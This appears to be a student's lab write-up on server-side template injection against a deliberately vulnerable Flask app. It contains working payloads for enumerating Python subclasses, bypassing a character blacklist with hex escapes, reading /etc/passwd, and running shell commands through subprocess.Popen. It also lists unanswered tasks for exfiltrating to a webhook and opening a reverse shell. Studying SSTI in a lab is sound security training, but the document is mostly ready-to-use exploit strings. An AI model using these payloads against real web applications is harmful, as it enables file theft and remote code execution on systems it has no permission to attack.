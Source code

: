 Q: Give unique ssti payloads for the given cases while following these conditions:

```
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route("/")
def home():
    if request.args.get("c"):
        return render_template_string(request.args.get("c"))
    else:
        return "Hello, send someting inside the param 'c'!"


if __name__ == "__main__":
    app.run()
```

- Return the index of urllib in subclasses()
  
```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here

```http://127.0.0.1:5000/?c={{().__class__.__base__}}``` : ```<class 'object'>```

```http://127.0.0.1:5000/?c={{().__class__.__base__.__subclasses__()}}``` : ```[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>``` : returns all the subclasses for that object<br>

Now to get the index at which the urllib is present, we can copy the list and iterate through it or to directly run it in the browser we can use a for loop:
```
{% set subclasses = ().__class__.__base__.__subclasses__() %}
{% for i in range(subclasses|length) %}
  {% if 'urllib' in subclasses[i].__module__ %}
    {{ i }}
  {% endif %}
{% endfor %}
```
If this is our payload, then the for loop iterates through the subclasses list and prints the index wherever it finds urllib mentioned
url encoding the block we get the payload as: 
PAYLOAD:
```
%7B%25%20set%20subclasses%20%3D%20().__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20for%20i%20in%20range(subclasses%7Clength)%20%25%7D%0A%20%20%7B%25%20if%20'urllib'%20in%20subclasses%5Bi%5D.__module__%20%25%7D%0A%20%20%20%20%7B%7B%20i%20%7D%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

![image](https://github.com/poorvi1910/Web/assets/146640913/433ab890-0a54-4476-a97c-725822933382)

FOR BLACKLIST: 
```
http://127.0.0.1:5000/?c={{%20(dict.mro()[-1]|attr(%22\x5f\x5fsubclasses\x5f\x5f%22))()%20}}
```

- Get name of current python flask script


- Get all the current envvars


- Read a local file


PAYLOAD:
```
http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__.__builtins__.open(%22/etc/passwd%22).read()%20}}
```

- Run a command

```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here

```http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568]}}``` : ```<class 'subprocess.Popen'>``` : selecting the popen subprocess

```http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568](%27cat%20try.py%27,%20shell=True,%20stdout=-1).communicate()}}``` :  running cat command on a python file to read it

![image](https://github.com/poorvi1910/Web/assets/146640913/a516db8b-213f-4e58-8650-585cac3a95de)

PAYLOAD:
```
http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568](%27cat%20try.py%27,%20shell=True,%20stdout=-1).communicate()}}
```

- Send the contents of etc pass to  awebhook


- Create a reverse shell, save your work and run the command yes on the rev shell


- Re-write everything above to work against this blacklist = [    "import",    "open",    "module",    "write",    "load",    "read",    "eval",    "exec",    "system",    "os",    "_",    #",    ',    "]
